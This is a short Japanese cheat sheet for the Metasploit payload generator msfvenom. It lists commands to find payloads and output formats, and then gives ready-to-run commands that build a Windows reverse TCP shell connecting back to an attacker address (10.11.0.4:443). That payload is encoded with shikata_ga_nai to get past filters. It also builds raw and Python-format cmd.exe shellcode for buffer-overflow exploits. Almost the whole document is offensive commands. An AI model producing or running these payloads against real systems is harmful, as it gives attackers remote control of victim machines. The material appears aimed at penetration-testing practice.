 # msfvenom

### payloadの確認

```bash
msfvenom -l payloads > payloads.txt
cat payloads.txt | grep windows/shell | grep reverse | grep tcp
```

### フォーマットの確認

```bash
msfvenom -h
msfvenom --list formats
```

### リバースシェル（C言語）

```c
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```

### rawコードシェル

```bash
msfvenom -a x86 --platform windows -p windows/exec CMD='cmd.exe' -f raw -b "\x00\x0a\x0d\xff" -o raw_shellcode.txt
```

出力ファイルをそのままncで転送するような場合に利用

### BOF用(アプリのクラッシュを防ぐシェル)

```bash
msfvenom -a x86 --platform windows -p windows/exec CMD='cmd.exe'  EXITFUNC=thread -f python -b "\x00\x0a\x12\x1a\x4e\xb1\xd5" 
```

